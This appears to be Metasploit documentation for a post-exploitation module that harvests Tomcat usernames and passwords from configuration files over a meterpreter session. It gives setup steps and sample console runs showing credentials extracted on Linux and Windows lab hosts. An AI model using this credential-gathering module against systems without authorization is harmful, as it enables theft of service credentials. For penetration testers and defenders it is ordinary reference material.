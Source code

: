 ## Creating A Testing Environment

  For this module to work you need a linux or windows machine.

  * For linux you can run something like `apt-get install tomcat7` to get a working tomcat service.
  * For WIndows you can download tomcat from http://tomcat.apache.org/ and then install it as a service.

This module has been tested against:

  1. Xubuntu and Ubuntu Server 16.04 with tomcat 7, 8.
  2. Windows 10 with tomcat 6, 7.
  3. Windows XP with tomcat 5.5, 6, 7, 8

This module was not tested against, but may work against:

  1. Other versions of linux running tomcat v4-9
  2. Other version of windows running tomcat v4-9

## Verification Steps

  1. Start msfconsole
  2. Obatin a meterpreter session via whatever method
  3. Do: `use post/multi/gather/tomcat_gather`
  4. Do: `set session #`
  5. Do: `run`

## Scenarios

### Xubuntu 16.04 with tomcat 7 and 8

#### Running without read permissions

    msf post(tomcat_gather) > set session 1
    session => 1
    msf post(tomcat_gather) > run

    [*] [2017.03.31-10:19:27] Unix OS detected
    [*] [2017.03.31-10:19:28] /etc/tomcat7/tomcat-users.xml found
    [-] [2017.03.31-10:19:28] Failed to open file: /etc/tomcat7/tomcat-users.xml: core_channel_open: Operation failed: 1
    [*] [2017.03.31-10:19:28] Cannot open /etc/tomcat7/tomcat-users.xml you probably don't have permission to open the file or parsing failed.
    [*] [2017.03.31-10:19:28] /etc/tomcat8/tomcat-users.xml found
    [-] [2017.03.31-10:19:28] Failed to open file: /etc/tomcat8/tomcat-users.xml: core_channel_open: Operation failed: 1
    [*] [2017.03.31-10:19:28] Cannot open /etc/tomcat8/tomcat-users.xml you probably don't have permission to open the file or parsing failed.
    [*] [2017.03.31-10:19:28] Attempting to extract Tomcat listening ports from /etc/tomcat7/server.xml
    [-] [2017.03.31-10:19:28] Failed to open file: /etc/tomcat7/server.xml: core_channel_open: Operation failed: 1
    [*] [2017.03.31-10:19:28] Cannot open /etc/tomcat7/server.xml you probably don't have permission to open the file or parsing failed
    [*] [2017.03.31-10:19:28] Attempting to extract Tomcat listening ports from /etc/tomcat8/server.xml
    [-] [2017.03.31-10:19:28] Failed to open file: /etc/tomcat8/server.xml: core_channel_open: Operation failed: 1
    [*] [2017.03.31-10:19:28] Cannot open /etc/tomcat8/server.xml you probably don't have permission to open the file or parsing failed
    [*] [2017.03.31-10:19:28] No user credentials have been found
    [*] Post module execution completed

#### Running with read permissions

    msf post(tomcat_gather) > set session 2
    session => 2
    msf post(tomcat_gather) > run

    [*] [2017.03.31-10:33:14] Unix OS detected
    [*] [2017.03.31-10:33:15] /etc/tomcat7/tomcat-users.xml found
    [*] [2017.03.31-10:33:15] /etc/tomcat8/tomcat-users.xml found
    [*] [2017.03.31-10:33:15] Attempting to extract Tomcat listening ports from /etc/tomcat7/server.xml
    [*] [2017.03.31-10:33:15] Attempting to extract Tomcat listening ports from /etc/tomcat8/server.xml
    [+] [2017.03.31-10:33:16] Username and password found in /etc/tomcat7/tomcat-users.xml - tomcat2:s3cret
    [+] [2017.03.31-10:33:16] Username and password found in /etc/tomcat8/tomcat-users.xml - tomcat2:s3cret
    [*] Post module execution completed
        
    msf post(tomcat_gather) > creds
    Credentials
    ===========

    host        origin      service            public   private  realm  private_type
    ----        ------      -------            ------   -------  -----  ------------
    10.10.10.6  10.10.10.6  8080/tcp (Tomcat)  tomcat2  s3cret          Password


### Windows 10 with tomcat 7

#### Running with read permissions

    msf post(tomcat_gather) > run

    [*] [2017.03.31-10:43:18] Windows OS detected, enumerating services
    [+] [2017.03.31-10:43:18] Tomcat service found
    [*] [2017.03.31-10:43:18] C:\Users\XXX\Desktop\apache-tomcat-7.0.75\conf\tomcat-users.xml found!
    [+] [2017.03.31-10:43:19] Username and password found in C:\Users\XXX\Desktop\apache-tomcat-7.0.75\conf\tomcat-users.xml - tomcat:tomcat
    [+] [2017.03.31-10:43:19] Username and password found in C:\Users\XXX\Desktop\apache-tomcat-7.0.75\conf\tomcat-users.xml - both:<must-be-changed>
    [+] [2017.03.31-10:43:19] Username and password found in C:\Users\XXX\Desktop\apache-tomcat-7.0.75\conf\tomcat-users.xml - role1:<must-be-changed>
    [*] Post module execution completed

    msf post(tomcat_gather) > creds
    Credentials
    ===========

    host        origin      service            public   private            realm  private_type
    ----        ------      -------            ------   -------            -----  ------------
    10.10.10.6  10.10.10.6  8080/tcp (Tomcat)  tomcat2  s3cret                    Password
    10.10.10.7  10.10.10.7  8080/tcp (Tomcat)  tomcat   tomcat                    Password
    10.10.10.7  10.10.10.7  8080/tcp (Tomcat)  both     <must-be-changed>         Password
    10.10.10.7  10.10.10.7  8080/tcp (Tomcat)  role1    <must-be-changed>         Password